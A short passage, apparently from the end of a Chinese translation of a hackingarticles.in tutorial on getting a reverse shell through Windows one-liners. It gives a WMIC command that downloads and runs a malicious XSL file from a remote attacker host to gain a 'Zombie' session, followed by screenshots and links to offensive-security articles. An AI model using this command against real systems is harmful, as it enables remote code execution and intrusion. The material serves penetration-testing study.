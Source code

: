 执行WMIC以下命令从远程服务器下载并运行恶意XSL文件：

```bash
wmic os get /FORMAT:"http://192.168.1.107:9996/g8gkv.xsl"
```



![img](https://i2.wp.com/4.bp.blogspot.com/-128j7cQgiIw/XERxJrwmPDI/AAAAAAAAcJc/E6fOncwHWFkqByePbnTMoWstqBamuaL3wCLcBGAs/s1600/37.png?w=687&ssl=1)

一旦恶意XSL文件在目标机器上执行，您就会 像metasploit一样拥有  **Zombie连接**。

![img](https://i0.wp.com/3.bp.blogspot.com/-L7nvBm5Sd48/XERxKDpMKhI/AAAAAAAAcJk/R8u8I_loOnkqUvRf1pqXZ3K6ZRxv2O90wCLcBGAs/s1600/38.png?w=687&ssl=1)

本文翻译自 hackingarticles.in， [原文链接](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/) 。如若转载请注明出处。



reference:
<http://www.secist.com/archives/7195.html?tdsourcetag=s_pctim_aiomsg>

[求助\] Apache 2.2.14 mod_isapi Dangling Pointer漏洞用法](https://bbs.silic.wiki/thread-3039-1-1.html)

[我的shellcode编写之路](http://www.secist.com/archives/4809.html)

[渗透攻防工具篇-后渗透阶段的Meterpreter](https://paper.seebug.org/29/)


